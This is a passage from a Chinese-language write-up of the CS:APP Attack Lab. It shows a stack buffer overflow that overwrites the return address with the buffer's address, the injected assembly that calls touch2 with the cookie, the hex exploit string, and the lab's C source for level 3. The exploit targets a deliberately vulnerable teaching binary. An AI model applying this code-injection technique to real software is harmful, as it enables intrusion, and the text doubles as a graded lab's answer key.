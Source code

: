 可以看到 `touch2` 拥有一个参数，只有这个参数与 `cookie` 的值相等才可以通过。所以我们的目标就是让程序去执行我们的代码，设置这个参数的值，再调用 `touch2` 完成攻击。

- 如何让程序调用自己的函数呢？利用缓冲区溢出覆盖返回地址
- 自己的函数放哪呢？缓冲区首地址

在为缓存区分配完28个字节后，利用gdb的断点查看此时rsp的地址，这就是缓冲区首地址！把溢出后覆盖的返回地址设置为这个地址。

现在问题是如何调用touch2（不能用callq）。书上有说，函数P调用函数Q时，callq指令会把地址A（返回地址）压入栈中，并将PC设置为Q的起始地址。对应的指令retq会从栈中弹出地址A，并将PC设置为A。

那么把touch2的首地址压入栈中，再调用retq指令即可将PC设置为touch2。

汇编代码就是

```assembly
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq
```

转换成机器码

```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3
00 00 00 
00 00 00
00 00 00
00 00 00
00 00 00
00 00 00
00 00 00
00 00 00
00 00 00
78 dc 61 55 00 00 00 00 //溢出后覆盖返回地址
```

## Leval3

```cpp
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
